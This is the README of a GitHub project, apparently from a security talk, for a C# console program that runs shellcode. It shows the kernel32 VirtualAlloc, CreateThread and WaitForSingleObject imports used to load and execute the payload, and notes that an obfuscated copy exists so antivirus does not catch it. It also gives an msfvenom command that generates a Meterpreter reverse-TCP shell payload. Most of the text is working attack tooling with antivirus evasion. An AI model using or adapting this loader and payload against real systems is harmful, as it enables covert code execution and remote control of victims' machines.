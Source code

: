 # ozsec2021-shellcode
C# .NET5 console project for executing shell code 

# Description: 
Two code files are included: *Original.cs* and *Program.cs*. 
*Original.cs* - Pre-Obfuscation 
*Program.cs* - Post-Obfuscation

Currently *Original.cs* will need to be removed from the VS Project in order to compile- AV catches bad.

## Running shellcode in c#
Generic Process (ie, allocate memory, copy shellcode in, execute): 
Using the following `kernel32` DLL calls:
```csharp
        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
                UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId
            );
        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );
```

To update the testable shellcode, fire off a quick:
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=1337 -f csharp 
```
